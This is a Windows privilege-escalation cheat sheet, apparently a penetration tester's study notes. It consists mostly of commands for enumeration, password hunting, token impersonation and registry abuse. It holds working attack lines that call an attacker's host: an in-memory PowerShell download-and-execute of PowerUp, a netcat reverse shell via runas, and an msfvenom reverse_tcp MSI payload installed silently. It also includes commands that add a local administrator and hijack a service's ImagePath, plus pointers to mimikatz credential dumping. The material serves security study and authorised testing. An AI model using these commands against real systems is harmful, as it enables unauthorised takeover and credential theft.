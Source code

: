 **Resources:**

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

- [Sushant747 Guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)

- [Absolomb Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

**Manual Enumeration:**

 System:
 
    systeminfo   
    wmic qfe get Caption,Description,HotFixID,InstalledOn  #Patch info   
    wmic logicaldisk get caption,description,providername  #Disk info
    
    dir <file> /s /p   #Find file name. /s search all folders on HD, /p pause on each screen
    
    powershell -ep bypass   # to run scripts
    
  User:
  
    whoami /priv #privileges for current user    
    whoami /groups    
    net user 
    net user <user> 

  Network: 
  
    ipconfig
    arp -a
    route print
    netstat -ano
    
   If you find network services that are only available to the local host or a dualhomed NIC you may want to [port forward](https://github.com/Kahvi-0/Cheat-Sheets/blob/master/Post%20exploitation/Windows/Port%20forwarding.md) them to your host 
    
  Password hunting:

     findstr /si password *.txt *.ini *.config
     
  AV: 
  
      sc query windefend
      sc queryex type= service
      
  Firewall:
  
      netsh advfirewall firewall dump
      netsh firewall show state
      netsh firewall show config

**Automated Enumeration**

-------------------------------------------------------------------------------------

- [winPEAS .bat](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)

      wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat
      
 - [winPEAS .exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
      
-------------------------------------------------------------------------------------
    
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

Run powershell and run the following to download and run in memory

    iex(New-Object Net.WebClient).DownloadString('http://<ip>:<port>PowerUp.ps1')
    
Run from disk

    . .\PowerUp.ps1
    Invoke-AllChecks
    
-------------------------------------------------------------------------------------


- [Windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

      wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py && chmod +x windows-exploit-suggester.py && ./windows-exploit-suggester.py --update
      
      # This download and will create an .xlsx database
      
       CMD "systeminfo" saved to a file 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo sysinfo.txt 
      
      # Without 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext 'windows server 2008 r2'

-------------------------------------------------------------------------------------


- Meterpreter exploit suggester module

      post/multi/recon/local_exploit_suggester


-------------------------------------------------------------------------------------

[Meterpreter getsystem](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/)

 Note: technique 2 writes to disk ! Which means that it can get caught by AV.

-------------------------------------------------------------------------------------

**[Kernel](https://github.com/Kahvi-0/General-Notes/blob/master/Processes%20and%20architecture/Kernel.md) Exploits**

  Knowing the build of the OS is importent to knowing what kernel version is running and what vulnerabilties that kernel version might have. If you can own the kernel, you own the system.
  
 - Research Kernel exploits shown from tool output such as the exploit suggesters.
  
 - [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

-------------------------------------------------------------------------------------


**Password Hunting**

- Cleartext:

   Note that a lot of these will also be included in the automated enumeration tools

  - [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords)
 
- Hashed: 

  - [Pentest lab](https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/)

  - [mimikatz](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Windows/Mimikatz.md)

     - Need process with permissions to be able to interact with the running lsass.exe process
        -  ran as NT AUTHORITY\SYSTEM
        -  Must be same arch as the lsass.exe running on the target
        
-------------------------------------------------------------------------------------

    
**[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Windows/Token%20impersonation%20%7C%20potato%20attacks.md)**

    whoami /priv  #windows shell
    getprivs      #meterpreter
    
  [Juicy privileges](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges) to look for.
  
  [Juicy potato](https://github.com/ohpe/juicy-potato)
  
   Meterpreter version of potato attack. Requires a meterpreter session with the same architecture as the target.

    exploit/windows/local/ms16_075_reflection_juicy   #Windows 10
    exploit/windows/local/ms16_075_reflection

-------------------------------------------------------------------------------------
   
**[RUNAS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---runas)**
 
 Get a copy of nc.exe onto the target

    runas /savecred /user:<machine>\<user> "nc.exe -nv <IP> <port> -e cmd.exe"
   
-------------------------------------------------------------------------------------

**Registry related**

*Autoruns*

Requires a privileged account to login to tigger the autorun program to execute with admin privs. 
Using [Sysinternal tools](https://live.sysinternals.com/) Autoruns and accesschk we are going to check for programs that autorun.
Autoruns uses a GUI. Command to identify modifiable autorun programs: 

    accesschk64.exe -wvu "<image path identified in Autoruns>"

      -w programs that have write access
      -v verbose
      -u suppress errors

Modifiable Autoruns programs will also be identified using PowerUp.

Generate a payload for a shell and replace the modifiable program. 

*AlwaysInstallElevated*

Newly installed MSI packages (windows installers) will installed with elevated privileges (as admin user). If the registry key is 1, then it is installed. Powerup will look for this.

Detect - Tested on Windows 7:

    reg query HKLM\Software\Policies\Microsoft\Windows\Installer
    reg query HKCU\Software\Policies\Microsoft\Windows\Installer
    
Exploit:

After powerup has been invoked. If this is exploitable, powerup's output will give you a command to run that will generate an MSI file that will create a new admin user, This requires a GUI.

CLI version is to generate a payload MSI installer with a shell.

    msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<port> -f msi -o setup.msi 
    msiexec /quiet /qn /i setup.msi
    
Eleveate a lowlevel meterpreter session:

    use exploit/windows/local/always_install_elevated

*[regsvc](https://docs.microsoft.com/en-us/dotnet/framework/tools/regsvcs-exe-net-services-installation-tool) ACL*

Checking the ACL of the registry service to see if we have full control over a registry key. Then we generate a malicious exe to run under the registry using image path. So when regsvc is started it will run our exe.

Detect:

    Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl   

Exploit:

    cmd.exe /k net localgroup administrators user /add
    x86_64-w64-mingw32-gcc windows_service.c -o x.exe (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')
    
    reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\<path to exe> /f

-------------------------------------------------------------------------------------
 
  - [Nishang repo](https://github.com/samratashok/nishang)
